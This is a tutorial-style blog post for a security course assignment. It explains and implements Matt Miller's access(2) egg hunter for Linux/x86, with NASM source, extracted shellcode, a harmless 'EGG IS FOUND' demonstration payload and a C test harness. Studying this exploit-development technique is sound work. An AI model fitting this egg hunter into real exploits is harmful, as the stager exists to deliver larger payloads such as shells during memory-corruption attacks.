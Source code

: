 ```yaml
---
layout: post
title: SLAE Assignment  3 - Egg Hunter (Linux/x86)
---
```


The third assigment is to study about Egg Hunters and implement a working demo of egg hunters with configurable payloads. So, what is an **Egg Hunter**?!.
> An egghunter is a short piece of code which is safely able to search the Virtual Address Space for
an “egg” – a short string signifying the beginning of a larger payload. The egghunter code will
usually include an error handling mechanism for dealing with access to non allocated memory
ranges.

Often during exploit research, we may have control over a small amount of space, say 50 bytes. But in most cases, this much space is not  enough to accomodate a reverse shell or or bind shell. We may observe that a larger space is available somewhere else enough to accomodate a larger payload. But its location in memory is not known. Here is where egg hunters come in to play. A unique mark (EGG) is prepended before the shellcode and the egghunter will safely search the virtual address space for this egg. Once the egg is found the egghunter will jump to the larger payload followed by the egg.

There is wonderful paper regarding egg hunter implementations on both Linux and Windows platforms - [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). I found this very comprehensive and easy to follow. For Linux, the author - Matt Miller (skape) - explains in detail 3 implementaions of egghunter, each with their Pros and Cons. I will be using the second implementation of egg hunter in the aforementioned paper.

As described in the paper, the three requirements of an egg hunter are:

1. **It must be robust** - This requirement is used to express the fact that the egg hunter must be capable of searching through memory regions that are invalid and would otherwise crash the application if they were to be dereferenced improperly. It must also be capable of searching for the egg anywhere in memory.

2. **It must be small** - Given the scope of this paper, size is a principal requirement for the egg hunters as they must be able to go where no other payload would be able to fit when used in conjunction with an exploit. The smaller the better.

3. **It should be fast** - In order to avoid sitting idly for minutes while the egg hunter does its task, the methods used to search VAS should be as quick as possible, without violating the first requirement or second requirements without proper justification.

So, without further ado, lets look at one of the egg hunter implementations.

### Matt Miller's "access(2) - revisited" Egg hunter

The reason why I chose this implementaion is that it does not require the egg itself to be executable assembly, opening up a wider range of possible eggs to be used when searching, thus making it much more robust. In this implementation an **eight byte egg** is used when doing the searching. The reason for this stems from the fact that the implementations for the egg hunting algorithms tend to have a four byte version of the key stored once in the searching code itself, thus it might be possible if one were to use a four byte version of the key to accidentaly run into the egg hunter itself vice running into the expected buffer.

So, in the following implementation of egg hunter we are searching for two consecutive occurrances EGG (0x50905090).
```
EGG
EGG
<Larger Shellcode>
```

The egg hunter must be capable of searching through memory regions. This is where the ```access(2)``` system call is helpful. The real purpose of ```access(2)``` system call is to check and see if the current process has the specific access rights to a given file on disk. The man page entry for ```access(2)``` is as follows:
```
int access(const char *pathname, int mode);
```
The ```pathname``` pointer is the argument that will be used to do the address validation. The system call number for ```access(2)``` is defined in ```/usr/include/i386-linux-gnu/asm/unistd_32.h``` as follows:
```
#define __NR_access 33
```
When a system call encounters an invalid memory address, most will return the EFAULT (-14)error code to indicate that a pointer provided to the system call was not valid. This logic is applied in this egg hunter.

```nasm
;
; Description	: Matt Miller's access(2) - revisited Egg Hunter 
; File 		: egghunter.nasm
;


global _start

section .text
	_start:
		
		
		xor edx,edx			; EDX holds the pointer that is to be validated by the access system call
	
		next_page:
			or dx,0xfff		; page alignment logic
							; allows the hunting code to move up in PAGE SIZE
                            ; increments vice doing in single byte increments.
		
			next_address:
				inc edx
	
				; validating eight bytes of contiguous memory in a single swoop
				; The reason that it works in all cases is because the implementation
				; will increment by PAGE SIZE when it encounters invalid addresses, thus it’s
				; impossible that edx plus four could be valid and edx itself not be valid.
			
				lea ebx,[edx+0x4]

				push byte +0x21
				pop eax			; EAX = 33 = access()
				int 0x80

				; if memory pointed by ebx is not accessible, 
        	    ; then access() syscall returns value 0xfffffff2 (-14) EFAULT to EAX
				; compare the lower bytes of EAX with 0xf2

				cmp al,0xf2
				jz next_page	; pointer not valid

		; pointer is valid, search for egg
		
		mov eax,0x50905090	; EGG = 0x50905090
		mov edi,edx			; EDX has the valid pointer, copy it to edi
		scasd				; check for first appearance of EGG
        					; compare EAX with contents of memory pointed by EDI,
    						; EDI is incremented automatically by 4 bytes after SCASD (Even if scasd comparison are not equal)
		jnz next_address	; EGG not found, got to next address in page
		scasd				; Check for consecutive second appearance of EGG
		jnz next_address	; EGG not found, got to next address in page
		jmp edi				; we found egg consecutively two times, now EDI  = EDX + 8 = start of shellcode, jump to it
```

Assemble, Link the egghunter assembly file and Dump shellcode from the executable using ```objdump```. Later we will put this in a c file to test the egg hunter.
```
// egg hunter shellcode
// EGG : 0x50905090
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7
```
The following assembly code prints the string "EGG IS FOUND" onto stdout.

```nasm
;
; Author 	: RIZAL MUHAMMED (UB3RSiCK)
; Description 	: Print EGG IS FOUND
;

global _start
section .text
	_start:
		xor eax, eax
		mov al, 0x4			; write syscall
		
		xor ebx, ebx
		mov bl, 0x1			; write to stdout
		
		xor ecx, ecx
		jmp short get_me_buffer_address
			here_is_your_buffer:
				pop ecx		; now ecx will have address of message

		xor edx, edx
		mov dl, 0xd			; param3 how many bytes to write
		int 0x80

		; exit the program

		xor eax, eax			; exit system call - #define __NR_exit 1
		mov al, 0x1
		int 0x80

		get_me_buffer_address:
			call here_is_your_buffer				; when call is executed, address of message is
			message db "EGG IS FOUND", 0xA			; pushed on to the stack

```
Assemble, Link the above assembly code and Dump the shellcode from executable.
```
"\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xc9\xeb\x0d\x59\x31\xd2\xb2\x0d\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xee\xff\xff\xff\x45\x47\x47\x20\x49\x53\x20\x46\x4f\x55\x4e\x44\x0a";
```

Insert the egg hunter shellcode and the shellcode to print "EGG IS FOUND" string to the following c file. Different shellcode payloads of different sizes can be used. The place where to put in shellcode is marked in the template file.
```c
#include<stdio.h>
#include<string.h>

unsigned char egghunter[] = \
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";


unsigned char shellcode[] = \
"\x90\x50\x90\x50" //egg mark 1
"\x90\x50\x90\x50" //egg mark 2

// Place second stage larger payload here
// Print EGG IS FOUND shellcode
"\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xc9\xeb\x0d\x59\x31\xd2\xb2\x0d\xcd\x80\x31\xc0"
"\xb0\x01\xcd\x80\xe8\xee\xff\xff\xff\x45\x47\x47\x20\x49\x53\x20\x46\x4f\x55\x4e\x44\x0a";

main()
{

        printf("Egghunter Shellcode Length:  %d\n", strlen(egghunter));

        int (*ret)() = (int(*)())egghunter;

        ret();

}
```
Compile the c file and execute.
image here


